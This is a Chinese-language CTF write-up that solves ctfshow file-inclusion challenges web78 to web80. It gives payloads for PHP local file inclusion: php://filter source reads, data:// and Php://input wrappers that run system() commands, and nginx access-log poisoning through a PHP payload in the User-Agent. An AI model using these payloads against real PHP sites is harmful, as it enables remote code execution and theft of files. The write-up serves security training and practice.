## ctfshow- 文件包含

### web78

无限制：

```python
#1
?file=php://filter/read=convert.base64-encode/resource=flag.php
#2
?file=data://text/plain,<?php system('ls');?> 
?file=data://text/plain,<?php system('tac flag.php');?>
#3
php://input#用不了好像
```



```
PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMgQERhdGU6ICAgMjAyMC0wOS0xNiAxMDo1NToxMQ0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhhDQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMTYgMTA6NTU6MjANCiMgQGVtYWlsOiBoMXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxhZz0iY3Rmc2hvd3tkYmQzOTRjNC1kZDkxLTQ5MmQtOTJlMi00MTU0ZTZiZmJmZGJ9Ijs=
$flag="ctfshow{dbd394c4-dd91-492d-92e2-4154e6bfbfdb}";
```



### web79

```php
$file = str_replace("php", "???", $file);
```

将php替换了，但是这个默认不忽略大小写，

1. 这里使用data://

```python
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZionKTs/Pg==
# <?php system('tac f*');?>
```

2. 使用input，`hackbar`不行，这里使用bp

```
?file=Php://input
```



### web80

```php
$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
```

这会ban了两个，这可以可以使用上一题的`Php://`

```
?file=Php://input

<?php system("ls");?>
<?php system("tac fl0g.php"); ?>
```

看了一下资料还可以利用日志,先访问这个日志地址，然后使用bp抓包

```
?file=/var/log/nginx/access.log
```

修改UA内容为：

```php
<?php system("ls");?>
<?php system('cat fl0g.php');?>
```

重发送发现回显

![image-20240905131450579](https://gitee.com/bx33661/image/raw/master/path/image-20240905131450579.png)